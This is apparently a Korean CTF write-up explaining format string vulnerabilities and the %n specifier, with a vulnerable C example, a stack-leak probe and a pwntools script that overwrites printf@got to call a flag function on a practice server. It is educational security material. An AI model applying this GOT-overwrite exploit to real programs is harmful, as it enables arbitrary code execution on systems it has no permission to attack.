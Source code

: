 ## 사전지식  
FSB가 뭘 까요?   
FSB - 포맷스트링 버그 취약점의 줄임말.   
```
int main(int argc,char *argv[])
{
  char buf[256];
  strncpy(buf,argv[1],sizeof(buf));
  printf(buf);
}
```   
이런식으로 포맷스트링을 지정하지 않을 시 FSB취약점을 이용해 임의의 악성코드도 실행할 수 있다.
포맷스트링 = 형식지정자. 우리가 아는 %d, %c ...    
이 중 우리가 모르는 %n라는 포맷스트링 지정자가 있는데, 
```   
char buf[] = "abcde";
printf("%s %n\n",buf,&n);
```    
이 지정자는 출력한 문자열의 개수를 특정 메모리에 써주는 역할을 한다.   
다시 위 코드로 가서, 여기서 문제는 바로 c언어에 포맷스트링 문자를 넣었을 경우 발생하는데,   
음 해보면 알거다.   
쨋든 printf()함수는 포맷스트링 문자를 만나면 스택에 저장된 값을 하나씩 뽑아서 출력해준다.   
ret, ebp, buf...그냥 스택에 있는 값을 접근해 출력할 수 있다.   
그리고 가장 중요한건 만약   
```
printf("ccddeedfads..%x%x%x%n",&n)
``` 
이렇게 된다면 n의 주소에는 여태까지 출력한 문자열의 개수를 덮어쓸 수 있다.   
원하는 개수로 주소를 변조해 들어갈 수 있다는 뜻.   
이걸로 우리가 
## 풀이    
문제에서 FSB를 쓰라고 되어있으니 한번 체크헤보자.   
는 개 쌉소리고 ida로 보면 위 형식처럼 snprintf()/printf()에 포맷스트링문자를 지정하지 않은 채 받는 걸 볼 수 있다.   

```
BBBB %p %p %p %p    
```  
> BBBB (nil) 0x42424242 0x20702520 0x25207025    
자 보면 두 번째 포맷스트링에서 우리가 입력한 BBBB를 주소로 바꾼 값을 포인팅 한다는게 보이지 않는가?    
즉 BBBB는 0x42424242라는 주소가 되고, 그 주소에 %n으로 만들어진 값이 채워지는 것을 알 수 있다.   
예시를 들자면 BBBB %x %n를 했을 때, 4+1(공백)+4(%x)+1 = 10이 %n의 위치, 여기서는 0x42424242에 들어간다.   
다시 ida로 돌아가면 flag함수가 눈에 보인다. 그러면 이 flag함수를 실행하기 위해서 
다른 라이트업을 보면 뭔 printf@got를 overwrite하라는데 우리 늅늅이들은 이딴 소리가 뭔지 모를 것이다.   
간-단하게 설명하자면, 함수 호출 시 plt와 got이 있는데, 우리가 함수를 호출하는 것은 정확히 함수의 plt를 호출하는 것이고,   
이때 got으로 jmp하게 된다. 그럼 got에는 뭐가 있느냐?   
바로 함수의 원래 주소가 들어가 있는 것이다. 이유를 설명하면 길어지니 링크를 달아놓겠다.   
<https://bpsecblog.wordpress.com/2016/03/07/about_got_plt_1/>   
그럼 printf()함수를 더블클릭해 got주소를 알아냈으니, 이제 파이썬 코드를 짜보자!    

```   
from pwn import *

r = remote('ctf.j0n9hyun.xyz',3002)
flag = 0x080485B4
decflag = '%'+str(int(flag)-4)+'x'+'%n'
print_got = 0x804A00c
p = p32(print_got)
p+=decflag
r.sendline(p)
r.interactive()
```   
자 코드 해석 간다!!     
일단 위의 내용을 잘 읽었다면 %n는 출력한 문자열의 개수를 특정메모리에 쓴다고 배웠다.   
일단 printf@got의 주소를 입력해주고 flag주소값의 크기-4만큼 출력하도록 할꺼다.   
그래서 나는 flag주소를 int로 바꾸고 -4, 즉 printf@got의 주소의 크기만큼 빼준값의 크기를 %x사이에 넣고,   
%n을 통해서 printf@got주소에 값을 넣으면 printf()가 실행 될때 flag가 실행 될 것이다.   
DUT!!!!!!!!!     





